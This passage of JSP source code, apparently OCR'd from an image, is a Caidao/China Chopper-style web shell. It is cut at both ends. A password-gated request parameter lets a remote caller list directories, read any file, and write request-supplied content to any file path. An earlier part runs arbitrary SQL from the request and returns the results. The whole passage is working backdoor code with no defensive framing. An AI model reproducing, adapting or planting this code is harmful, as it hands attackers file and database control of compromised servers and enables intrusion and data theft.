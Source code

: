              while (r.next()) {  
                  for (int i = 1; i <= n; i++) {  
                      if(q.indexOf("--f:")!=-1){  
                            bw.write(r.getObject(i)+""+"\t");  
                            bw.flush();  
                        }else{  
                            sb.append(r.getObject(i)+"" + "\t|\t");  
                        }  
                    }  
                    if(bw!=null){bw.newLine();}  
                    sb.append("\r\n");  
                }  
                r.close();  
                if(bw!=null){bw.close();}  
           } catch (Exception e) {  
               sb.append("Result\t|\t\r\n");  
                try {  
                   m.executeUpdate(q);  
                    sb.append("Execute Successfully!\t|\t\r\n");  
               } catch (Exception ee) {  
                   sb.append(ee.toString() + "\t|\t\r\n");  
               }  
           }  
            m.close();  
         c.close();  
    }  
    %>  
    <%  


    //String Z = EC(request.getParameter(Pwd) + "", cs);  

       cs = request.getParameter("code") != null ? request.getParameter("code")+ "":cs;  
      request.setCharacterEncoding(cs);  
       response.setContentType("text/html;charset=" + cs);  
      StringBuffer sb = new StringBuffer("");  
    if (request.getParameter(Pwd) != null) {  

      try {  
         String Z = EC(request.getParameter("action") + "");  
           String z1 = EC(request.getParameter("z1") + "");  
           String z2 = EC(request.getParameter("z2") + "");  
          sb.append("->" + "|");  
          String s = request.getSession().getServletContext().getRealPath("/");  
         if (Z.equals("A")) {  
              sb.append(s + "\t");  
               if (!s.substring(0, 1).equals("/")) {  
                 AA(sb);  
              }  
          } else if (Z.equals("B")) {  
              BB(z1, sb);  
           } else if (Z.equals("C")) {  
               String l = "";  
              BufferedReader br = new BufferedReader(new InputStreamReader(new FileInputStream(new File(z1))));  
              while ((l = br.readLine()) != null) {  
                   sb.append(l + "\r\n");  
            }  
               br.close();  
          } else if (Z.equals("D")) {  
              BufferedWriter bw = new BufferedWriter(new OutputStreamWriter(new FileOutputStream(new File(z1))));  
              bw.write(z2);  
              bw.close();  
               sb.append("1");  
          } else if (Z.equals("E")) {  
                EE(z1);  